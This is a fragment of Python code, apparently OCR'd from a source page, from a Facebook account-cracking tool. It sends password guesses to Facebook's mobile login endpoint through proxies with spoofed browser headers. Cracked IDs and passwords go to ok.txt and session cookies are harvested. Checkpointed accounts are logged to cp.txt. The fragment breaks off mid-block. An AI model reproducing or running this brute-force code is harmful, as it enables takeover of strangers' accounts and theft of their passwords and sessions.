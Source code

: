             'scheme': 'https',

            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',

            'accept-language': 'en-GB,en-US;q=0.8,en;q=0.9', 

            'dnt':'1', 

            'x-requested-with':'mark.via.gp', 

            'sec-fetch-site': 'none',

            'sec-fetch-mode': 'navigate',

            'sec-fetch-user': '?1',

            'sec-fetch-dest': 'document',

            'accept-encoding':'gzip, deflate, br','accept-language': 'en-US,en;q=0.9',

            'cache-control': 'max-age=0',

            'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="103", "Google Chrome";v="103"',

            'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Windows"',

            "sec-ch-prefers-color-scheme": "light",

            'user-agent': ua}

            lo = session.post('https://p.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb,proxies=proxs).text

            log_cookies=session.cookies.get_dict().keys()

            #print(iid+'|'+pws+'|'+str(log_cookies))

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[7:22]

                print('\033[1;92m[JITU - X_💉 OK] '+cid+' | '+ps+'\n[•] Useeagent: '+ua+'\033[0;97m')

                open('ok.txt', 'a').write(cid+' | '+ps+'\n')

                cek_apk(session,coki)

                oks.append(cid)

                break

            elif 'checkpoint' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[24:39]

                print('\033[1;95m[JITU - X_ CP] '+cid+' | '+ps+'\033[0;97m')

                open('cp.txt', 'a').write(cid+' | '+ps+'\n')

                cps.append(cid)
